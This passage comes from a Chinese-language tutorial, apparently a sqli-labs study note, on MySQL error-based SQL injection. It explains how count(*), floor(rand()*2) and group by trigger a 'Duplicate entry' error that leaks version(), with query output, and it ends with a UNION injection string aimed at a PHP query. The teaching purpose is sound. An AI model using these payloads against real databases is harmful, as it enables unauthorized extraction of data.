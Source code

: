      * ##### group by：根据by的规则对数据进行分组

     * ##### Count：聚合加动作

    看下报错的语句和效果

    ```mysql
    mysql> select count(*),concat(version(),'+',floor(rand()*2))a from users group by a;
    +----------+----------+
    | count(*) | a        |
    +----------+----------+
    |        8 | 5.7.17+0 |
    |        5 | 5.7.17+1 |
    +----------+----------+
    2 rows in set (0.00 sec)
    
    mysql> select count(*),concat(version(),'+',floor(rand()*2))a from users
    group by a;
    +----------+----------+
    | count(*) | a        |
    +----------+----------+
    |        5 | 5.7.17+0 |
    |        8 | 5.7.17+1 |
    +----------+----------+
    2 rows in set (0.00 sec)
    
    mysql> select count(*),concat(version(),'+',floor(rand()*2))a from users group by a;
    ERROR 1062 (23000): Duplicate entry '5.7.17+1' for key '<group_key>'
    ```
    
    可以发现，我们有一定的<font color=Crimson>几率</font>爆出错来，其实有一定的条件-users的记录数需要 ≥ 2（ rand()生成无序序列 ）或者 ≥ 3（ rand(0)生成序列的 ）。为什么会像上面这样呢？其实在这条语句里concat(…) 做为a并成为group by的规则，那么group by的规则就只有：'5.7.17+0'和'5.7.17+1'，ok规则知道了，那么count是计算过程是怎么样的呢，这里看着上面没保存的结果，think in this way：
    
     #####	取第一条记录时concat的结果为'5.7.17+0' ——> 发现a没有此键值 ——> 向a中添加此记录时会重新计算concat一次的结果为'5.7.17+0'，并把conut(*)自加1
     
     ##### 	取第二条记录时concat的结果为'5.7.17+1' ——> 发现a没有此键值 ——> 向a中添加此记录时重新计算concat一次的结果为'5.7.17+0'，这时想往里添加键值和count(*)自加不同，就会爆错重复的键值
    
     这也解释了为什么在不提供随机种子的情况下，记录数要求 ≥ 2（上面是最小步骤）和为什么报错会是几率性事件：因为在最小步骤出现前如果表里已经出现过两条规则那就不会再报错了，rand()*3,4,5...自行脑补。ps：更详细的解释在这里--[Mysql报错注入原理分析(count()、rand()、group by)](http://mp.weixin.qq.com/s?__biz=MzA5NDY0OTQ0Mw==&mid=403404979&idx=1&sn=27d10b6da357d72304086311cefd573e&scene=1&srcid=04131X3lQlrDMYOCntCqWf6n#wechat_redirect)
     那么其在上面php代码里生效的格式应该是这样的
     ```mysql
     mysql> select * from users where id='1' union select 1,2,3 from (select count(*),concat(floor(rand()*2),version())a from users group by a)b -- ' limit 0,1;
    -> ;
	+----+----------+----------+
	| id | username | password |
	+----+----------+----------+
	|  1 | Dumb     | Dumb     |
	|  1 | 2        | 3        |
	+----+----------+----------+
	2 rows in set (0.00 sec)
